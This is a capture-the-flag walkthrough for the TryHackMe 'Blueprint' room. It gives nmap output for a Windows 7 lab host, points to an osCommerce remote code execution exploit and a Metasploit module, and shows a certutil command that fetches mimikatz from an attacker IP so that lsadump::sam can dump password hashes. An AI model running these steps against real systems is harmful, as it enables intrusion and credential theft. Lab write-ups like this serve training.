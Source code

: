 #BulePrint

https://tryhackme.com/room/blueprint

#### Nmap

	80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
	| http-methods: 
	|   Supported Methods: OPTIONS TRACE GET HEAD POST
	|_  Potentially risky methods: TRACE
	|_http-server-header: Microsoft-IIS/7.5
	|_http-title: 404 - File or directory not found.
	135/tcp   open  msrpc        Microsoft Windows RPC
	139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
	443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
	|_http-title: Bad request!
	| ssl-cert: Subject: commonName=localhost
	| Issuer: commonName=localhost
	| Public Key type: rsa
	| Public Key bits: 1024
	| Signature Algorithm: sha1WithRSAEncryption
	| Not valid before: 2009-11-10T23:48:47
	| Not valid after:  2019-11-08T23:48:47
	| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
	|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
	|_ssl-date: TLS randomness does not represent time
	| tls-alpn: 
	|_  http/1.1
	445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
	3306/tcp  open  mysql        MariaDB (unauthorized)
	8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
	| http-methods: 
	|   Supported Methods: GET HEAD POST OPTIONS TRACE
	|_  Potentially risky methods: TRACE
	|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
	|_http-title: Index of /
	49152/tcp open  msrpc        Microsoft Windows RPC
	49153/tcp open  msrpc        Microsoft Windows RPC
	49154/tcp open  msrpc        Microsoft Windows RPC
	49158/tcp open  msrpc        Microsoft Windows RPC
	49159/tcp open  msrpc        Microsoft Windows RPC
	49160/tcp open  msrpc        Microsoft Windows RPC
	Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows


8080/HTTP is OsCommerce is vulnerable to RCE 

1.
ExploitDB - osCommerce 2.3.4.1 Remote Code Execution 
https://www.exploit-db.com/exploits/44374

^Modify the exploit and use 

2.
Use MsfModule
	
	exploit/multi/http/oscommerce_installer_unauth_code_exec

set options then run!

We got meterpreter then open shell!

use **mimikatz** to get NLTM Hash

	certutil.exe -urlcache -f http://10.9.172.114:8000/mimikatz.exe mimikatz.exe
	mimikatz.exe
	lsadump::sam

^After run you got Hash! Decrypt then submmit

### Root Flag
Navigate to C:\Users\Administrator\Desktop cat the root flag
















